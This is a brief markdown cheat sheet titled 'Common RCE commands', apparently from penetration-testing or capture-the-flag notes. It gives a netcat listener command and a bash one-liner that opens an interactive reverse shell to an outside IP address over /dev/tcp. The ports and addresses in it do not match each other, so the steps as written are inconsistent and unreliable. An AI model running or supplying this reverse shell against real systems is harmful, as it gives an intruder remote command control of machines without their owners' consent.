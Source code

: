 # Common RCE commands

Use netcat to listen locally on port 1234

```bash
netcat -lvnp 1234
```

On the remote host, connect to our listener (10.10.14.153:8888 here) with

```bash
bash -c "bash -i >& /dev/tcp/10.10.14.18/8888 0>&1"
```


